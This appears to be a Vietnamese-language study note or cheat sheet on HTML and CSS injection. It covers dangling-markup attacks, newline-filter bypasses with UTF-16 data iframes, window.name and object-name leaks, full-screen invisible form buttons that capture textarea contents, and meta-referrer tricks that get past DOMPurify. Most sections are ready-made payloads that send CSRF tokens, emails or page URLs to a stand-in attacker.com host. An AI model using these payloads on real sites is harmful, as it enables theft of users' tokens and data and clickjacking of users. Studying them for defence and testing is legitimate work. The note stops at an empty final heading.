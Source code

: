 # HTML Injection 
## Dangling Markup 
- **Dangling Markup** xảy ra khi website chèn nội dung do người dùng cung cấp vào trong một thuộc tính HTML nhưng quên đóng dấu nháy hoặc thẻ.

=>  **Kết quả:** trình duyệt tiếp tục đọc phần HTML phía sau như là một phần của giá trị thuộc tính đó.
- Payload `<img src='//attacker-website.com?`
- HTMLSource trở thành 
```html
<img src='https://attacker.com?</div>
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
=> Kết quả là trình duyệt sẽ gửi một request hình ảnh tới URL sau (đã được mã hóa URL) : `https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI
`

=> Lấy được **CSRF**

- Tuy nhiên đối với Chromium nõ sẽ loại bỏ các url có kí tự xuống dòng (newline) ngược lại firefox thì không bỏ 
- Biện pháp 
    - dùng `<textarea>` vì nó chỉ bị đóng bới `</textarea>` hoặc **cuối tài liệu** 
    - Tạo 1 nút lớn để người dùng nhập vào và sẽ leak được data
- Payload
```html ==
<form action="https://attacker.com">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
<p>Your email: victim@example.com</p>
```
- Tuy nhiên với Chromium thì ngược lại 
    - ![alt text](image.png)
### Bypass newline detection
- Vậy làm sao để bypass được việc loại bỏ newline???
#### UTF-16 iframe/stylesheet content
- Nếu `<iframe>` được phép ghép với `src=data:` ta có thể  bypass nhờ `charset UTF-16` 

```html
Encoded prefix
<style>*{background-image: url(https://attacker.com?
```
[Encode as UTF-16](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')URL_Encode(true)&input=PHN0eWxlPip7YmFja2dyb3VuZC1pbWFnZTogdXJsKGh0dHBzOi8vYXR0YWNrZXIuY29tPw) 

▼
```html
Payload
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
```
▼

```html 
HTML Source
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
- Nội dung bên trong của `iframe` sau khi `inject`
- ![alt text](image-1.png)

#### Iframe name attribute
- Có cách khác nữa 
- Khi bạn có thể tạo `iframe` mà nguồn source là remote ; thuộc tính `name` của iframe có thể rò rỉ và được atk đọc thông wa `window.name` 
```html
Html Source
<iframe src="https://attacker.com" name='
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
▼
Ở phía console của atker 
```html
> window.name
'\n<p>Your email: victim@example.com</p>\n<footer>That'

```
=> `window.name` có thể chứa xuống dòng ngay cả trên Chromium, vì nó không phải **URL** hay **target**.
- Nếu CSP không cho phép bất kì nguồn nào bên ngoài và ta có thể nhúng `Iframe` => Chiếm luôn wuyền `Iframe` 

```html
HtmlSource
<object data="about:blank" name='
<!-- payload chứa dữ liệu nhạy cảm ở đây -->
```
```html
HtmlSource
<iframe id="iframe" src="https://target.tld/dangling-object"></iframe>
<script>
  iframe.onload = () => {
    const object = iframe.contentWindow[0];
    object.location = "about:blank";  // Navigate to our same-origin

    const interval = setInterval(() => {
      object.origin;  // When it becomes same-origin
      clearInterval(interval);
      alert(object.name);  // Leak its name (kept after navigation)
    })
  }
</script>
```
- Cách khác kết hợp `<base>`  với `target` 
- Khi `base@target` bị `clobber`, mọi link trên trang (kể cả link do attacker chèn) khi người dùng click sẽ được mở với `window.name` = giá trị của `base@target` 
```html
<!-- che phủ toàn màn hình để dụ click -->
<a href="https://attacker.com/leak" style="position:fixed;top:0;left:0;width:100%;height:100%"></a>

<!-- chèn base target chứa newline / payload -->
<base target='
```

### Leak via Referer
- Chúng ta sẽ thực hiện leak với `textarea` ngay cả khi CSP không cho host bên ngoài 
- Cái này chỉ có thể thực hiện trên `Chromium` và yêu cầu có 1 `</textarea>` ngay sau 
- Inject đoạn đầu tiên : 
    - `<img src="https://attacker.com" referrerpolicy="unsafe-url">` 
- Đoạn thứ 2 
```html
<form action="/referer-leak" method="GET">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- `action=` trỏ tới nơi chứa injection referer thứ hai
- Khi user click (thậm chí vô ý do button phủ full-screen), form submit và nội dung `<textarea>` bị đưa vào `?leak=`
- Tuy nhiên nếu không có chỗ lưu `Referer leak` . Ta cần phải dùng Payload khác 
```html
<form action="" method="GET">
<input type="hidden" name="html" value="<img src=https://attacker.com referrerpolicy=unsafe-url>">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
................
................
Đoạn nay của nạn nhân 
................
................
</textarea>
```
- Url sẽ load như sau `https://target.com/vulnerable?html=%3Cimg+src%3Dhttps%3A%2F%2Fattacker.com+referrerpolicy%3Dunsafe-url%3E&leak=%3Cp%3EYour+email%3A+victim%40example.com%3C%2Fp%3E%0D%0A%3Cdiv+class%3D%22write-note%22%3E%0D%0A++%3Ctextarea%3E`

## CSS Injection
### Redirect 
- Dùng `<meta>` (thẻ không bị chặn bới CSP) để chuyển hướng `user`
```html
<meta http-equiv="refresh" content="0; url=https://example.com">
```
### Referer
- Thay đổi chính sách referrer `<meta name="referrer" content="unsafe-url">`
```html
Redirecting response

HTTP/1.1 200 OK
Content-Security-Policy: default-src 'none'
Content-Type: text/html

<meta name="referrer" content="unsafe-url">
<meta http-equiv="Refresh" content="0,url=https://example.com">

```
- Điều thú vị là thẻ `<meta>` áp dụng cho toàn bộ trang, thậm chí khi sử dụng `DOMParser.parseFromString()` 
- Điều đó có nghĩa là các bộ lọc  `sanitizer` phía `client` dùng hàm `parse` này có thể vô tình áp dụng chính sách `referrer` trước khi nội dung được `saniti` hóa!
- Điều này tạo ra một cách rất đơn giản để làm rò rỉ URL hiện tại bằng DOMPurify: 
```html
<meta name="referrer" content="unsafe-url">
<!-- Dù thẻ meta trên có thể bị DOMPurify saniti hóa đi,
    nó vẫn có thể đã áp dụng chính sách referrer khi parsing,
    khiến tag ảnh còn lại gửi toàn bộ URL tới attacker -->
<img src="https://attacker.com">

```

#### Attribute Injection 

